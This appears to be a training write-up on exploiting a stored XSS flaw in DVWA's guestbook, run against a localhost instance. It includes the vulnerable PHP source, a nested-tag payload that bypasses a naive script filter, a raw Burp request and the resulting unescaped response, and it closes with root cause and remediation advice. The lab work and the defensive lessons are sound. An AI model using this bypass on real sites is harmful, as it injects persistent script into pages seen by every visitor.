

# DVWA — Stored XSS (Medium Level)

## Overview

| | |
|---|---|
| **Vulnerability** | Stored Cross-Site Scripting (XSS) |
| **Target application** | DVWA (Damn Vulnerable Web Application) |
| **Module** | XSS (Stored) — Guestbook |
| **Security level** | Medium |
| **URL** | `http://localhost:8082/vulnerabilities/xss_s/` |
| **Tools used** | Firefox, Burp Suite (Repeater) |

Stored XSS occurs when user-supplied input is saved on the server (e.g. in a database) and later rendered back to *any* visitor without proper sanitization. Unlike reflected XSS, no social engineering (tricking a victim into clicking a crafted link) is required — the payload fires automatically for every user who views the affected page.

---

## 1. Baseline — confirming the vulnerability at Low level first

Before attacking Medium, the same guestbook was tested at **Low security level** to establish a baseline — Low has no filtering at all on either field, so a plain payload works immediately with no bypass needed.

**Step 1 — Empty guestbook form, Low level:**



**Step 2 — Payload submitted directly (no filtering, no Burp needed):**
```html
Name: test
Message: <script>alert('Stored XSS')</script>
```

**Step 3 — Alert fires immediately, and again on every subsequent page reload (proving persistence):**


This confirmed the core stored-XSS behavior — payload saved to the database, executes for any visitor, no interaction required per visit — before moving to the filtered Medium level below.

---

## 2. Source code analysis

**File:** `xss_s/source/medium.php`

```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = mysqli_real_escape_string( $GLOBALS["___mysqli_ston"], $message );
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = mysqli_real_escape_string( $GLOBALS["___mysqli_ston"], $name );

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query( $GLOBALS["___mysqli_ston"], $query );
}
?>
```

### Key observation — asymmetric filtering

| Field | Filtering applied | Strength |
|---|---|---|
| **Message** | `strip_tags()` + `mysqli_real_escape_string()` + `htmlspecialchars()` | Strong — tags stripped **and** output encoded |
| **Name** | `str_replace('<script>', '', ...)` + `mysqli_real_escape_string()` | Weak — only removes the literal substring `<script>`, no output encoding |

The `Message` field is effectively unbreakable at this level (three layers of defense). The `Name` field only performs a **single-pass, case-sensitive, literal string replacement** — a classic weak blacklist. This makes it the target.

---

## 3. Attack plan — moving to Medium level

With the baseline confirmed, security level was switched to **Medium** via DVWA Security settings. The same plain payload from Low level no longer works, since filtering has been added (see source analysis above). The revised plan:

1. Craft a payload that defeats `str_replace('<script>', '', $name)`.
2. Bypass the client-side `maxlength="10"` restriction on the Name field (HTML-only restriction, not enforced server-side).
3. Submit the payload via Burp Suite (Repeater) so the browser's input-length limit doesn't get in the way.
4. Confirm the payload is stored unescaped in the database and fires on every subsequent page load.

---

## 4. Bypassing the client-side length restriction

The rendered form has:

```html
<input name="txtName" type="text" size="30" maxlength="10">
```

`maxlength` is a **client-side, HTML-only control** — it restricts what you can type into the browser field, but it does **nothing** to restrict what the server accepts. Any request sent directly (bypassing the browser UI) is unaffected by it.

**Screenshot — typing directly into the field gets truncated at 10 characters:**


**Fix:** capture the form submission in Burp Suite and edit the `txtName` parameter directly in the raw request, where no length limit applies.

---

## 5. Crafting the bypass payload

The filter:
```php
$name = str_replace( '<script>', '', $name );
```

only removes the **exact literal substring** `<script>` — once, in a single pass. It does not:
- re-scan the string after replacement
- handle different casing (`<ScRiPt>`)
- handle the string split across a nested tag

**Payload used (Name field):**
```html
<sc<script>ript>alert('Medium Stored XSS')</script>
```

**How the bypass works:**

| Step | String |
|---|---|
| Input submitted | `<sc<script>ript>alert('Medium Stored XSS')</script>` |
| Filter removes literal `<script>` (found once, in the middle) | `<sc` + `ript>alert('Medium Stored XSS')</script>` |
| Result after concatenation | `<script>alert('Medium Stored XSS')</script>` |

The two remnants (`<sc` and `ript>`) reassemble into a fully valid `<script>` tag *after* the filter has already run — because the filter never re-checks its own output.

Note: only the **opening** tag needs to be split. The filter never touches `</script>`, since that string doesn't match `<script>` character-for-character — so the closing tag can be left intact.

---

## 6. Executing the attack via Burp Suite

### 5.1 Intercepted / captured POST request

```
POST /vulnerabilities/xss_s/ HTTP/1.1
Host: localhost:8082
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://localhost:8082
Connection: keep-alive
Referer: http://localhost:8082/vulnerabilities/xss_s/
Cookie: language=en; cookieconsent_status=dismiss; welcomebanner_status=dismiss; PHPSESSID=2cf099af21f9552a874d480f600174dc; security=medium
Upgrade-Insecure-Requests: 1

txtName=<sc<script>ript>alert('Medium Stored XSS')</script>&mtxMessage=test&btnSign=Sign+Guestbook
```

**Screenshot — request staged in Burp Repeater:**


> **Note on Content-Length:** when editing the body manually, the `Content-Length` header must match the actual byte length of the new body. Burp Repeater updates this automatically in most cases; when sending manually crafted raw requests, verify it matches or the server may reject/hang the request.

**Screenshot — Burp Proxy intercept queue (if Intercept is left ON, each request must be manually forwarded, or Intercept should be toggled OFF to let traffic pass through normally):**


### 5.2 Server response confirms unescaped storage

The response HTML returned by the server contained:

```html
<div id="guestbook_comments">
  Name: <script>alert('Medium Stored XSS')</script><br />
  Message: test<br />
</div>
```

The payload appears **raw and unescaped** — not as `&lt;script&gt;`, confirming it will be interpreted as executable markup by any browser rendering this page.

---

## 7. Verification — persistence confirmed

Reloading `http://localhost:8082/vulnerabilities/xss_s/` in the browser (outside of Burp) triggers the alert **automatically, on every page load**, with no further interaction required. This is the defining trait of stored XSS: the payload persists in the database and affects every future visitor of the page, not just the original submitter.

**Screenshot — alert box firing on page load:**


---

## 8. Summary of findings

| Check | Result |
|---|---|
| Client-side `maxlength` enforced server-side? | ❌ No — trivially bypassed via Burp |
| Name field filters `<script>` case-insensitively? | ❌ No — case-sensitive, exact match only |
| Name field re-scans input after filtering? | ❌ No — single pass, nested tags reassemble post-filter |
| Name field HTML-encodes output? | ❌ No — no `htmlspecialchars()` equivalent applied |
| Message field vulnerable to same technique? | ❌ No — `strip_tags()` + `htmlspecialchars()` fully neutralize it |
| Payload persists across page reloads? | ✅ Yes — confirmed stored in database |

## 9. Root cause

The vulnerability stems from **blacklist-based input filtering** (`str_replace` on a single literal string) instead of **context-aware output encoding**. A blacklist can only block patterns the developer anticipated; it cannot account for case variation, nested/split tags, or alternate attack vectors (e.g. `onerror`, `onload` event handlers on non-script tags). The `Message` field in this same file demonstrates the correct approach — encode all output regardless of what characters it contains.

## 10. Remediation

- Apply `htmlspecialchars()` (or equivalent context-aware output encoding) to the `Name` field, exactly as already done for `Message`.
- Never rely on blacklisting specific substrings (`<script>`, `javascript:`, etc.) as a primary defense.
- Enforce length and format restrictions **server-side**, not just via HTML attributes like `maxlength`.
- Consider a Content Security Policy (CSP) as defense-in-depth against any XSS that slips past input handling.

---

*Documented as part of DVWA practice — CloudGuardian / KAVACH capstone security learning track.*
